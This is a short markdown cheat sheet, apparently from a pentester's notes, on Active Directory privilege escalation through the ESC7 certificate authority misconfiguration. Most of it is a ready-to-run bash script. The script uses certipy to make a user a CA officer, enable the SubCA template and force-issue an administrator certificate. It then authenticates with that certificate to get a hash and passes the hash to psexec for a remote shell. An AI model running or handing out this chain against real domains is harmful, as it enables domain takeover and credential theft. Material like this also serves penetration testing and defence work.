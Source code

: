 ```yaml
---
title: Active Directory
---
```


# Active Directory Privilege Escalation

- [Hacktricks CS Domain Escalation](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/ad-certificates/domain-escalation#attack-2)
- [Hacktricks Certificates](https://book.hacktricks.xyz/crypto-and-stego/certificates)
- [impacket](https://github.com/fortra/impacket)
- [certipy](https://github.com/ly4k/Certipy)

## Vulnerable Certificate Authority Access Control - ESC7
- [Hacktricks ESC7](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/ad-certificates/domain-escalation#vulnerable-certificate-authority-access-control-esc7)
```bash
#!/bin/bash

theca='xxxx-DC01-CA'
theuser='xxx@xxx.com'
theusername='xxxxx'
theadmin='administrator@xxx.com'
thepassword='xxxxxxxxx'
theip='x.x.x.x' 
thetarget='xxx.com'

certipy-ad ca -ca $theca -add-officer $theusername -username $theuser -password $thepassword -dc-ip $theip
certipy-ad ca -ca $theca -enable-template SubCA -username $theuser -password $thepassword -dc-ip $theip

REQUEST_ID=$(echo "y" | certipy-ad req -username $theuser -password $thepassword -ca $theca -target $thetarget -template SubCA -upn $theadmin -dc-ip $theip | awk -F' ' '/Request ID is/ {print $5}')
echo "Request ID: $REQUEST_ID"

certipy-ad ca -ca $theca -issue-request $REQUEST_ID -username $theuser -password $thepassword -dc-ip $theip
certipy-ad req -username $theuser -password $thepassword -ca $theca -target $thetarget -retrieve $REQUEST_ID -dc-ip $theip

certipy-ad auth -pfx 'administrator.pfx' -username 'administrator' -domain $thetarget -dc-ip $theip
```

```bash
# this returns a hash
certipy-ad auth -pfx 'administrator.pfx' -username 'administrator' -domain $thetargetdomain -dc-ip $theip

# use the hash here
python psexec.py -hashes hhhhhhhh:hhhhhhhhh administrator@xxxx.com
```

